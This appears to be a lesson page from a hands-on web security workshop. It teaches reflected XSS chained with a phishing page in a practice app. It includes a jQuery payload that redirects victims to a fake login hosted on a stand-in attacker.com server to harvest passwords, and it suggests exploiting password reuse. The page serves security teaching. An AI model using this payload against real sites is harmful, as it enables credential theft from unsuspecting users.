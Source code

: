 XSS 2 - Reflected XSS + Phishing!
---------------------------------

![image](img/sword.png)


We've successfully attacked the system with a Stored XSS attack. Now let's try another method - a **Reflected attack**!

Reflected attacks take advantage of unsanitized data that is **injected from the url** and passes it to the code.

### Read again!

If you want, you can browse through [this again](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

### Attack!
Our vector of attack is going to be like so:

1. Using a [phishing](https://www.owasp.org/index.php/Phishing) page - a fake login page that has every login attempt send the credentials to your `serve` application. 
	> if you got `serve` running properly. [this phishing page](http://www.attacker.com:3000/utils/phishing-page/Login.html) should work.

2. Did you notice the *welcome* message poping up once you login? the message is passed via url parameter!

	Use that to inject your script to the **gibson** page through the URL! Have the fake login page require the user to log in, after clicking on the anywhere in the page
	> Hint: this is how it is done with jQuery ```$("body").click(function(){window.location="http://www.attacker.com:3000/utils/phishing-page/Login.html"})```

3. You are trying to steal the victim's password! Make the new malicious flow as convincing as possible! 

.. 

..

You would be surprised [how many people](http://docs.apwg.org/reports/apwg_trends_report_q1_2014.pdf) fall victim to these kind of attacks..

### Rolling the attack further

This method of attack doesn't work on all users, but when an unsuspecting user "bites", you will get their *password* and not just a *session*!

If for example, they use the same password as their *gmail* account, you've basically just gotten access to their mail too - and from there - their whole life!

- - - 
#### Have you already hacked the planet? Does all base belong to you?
[good! NEXT!](05-XSS2-defence.md)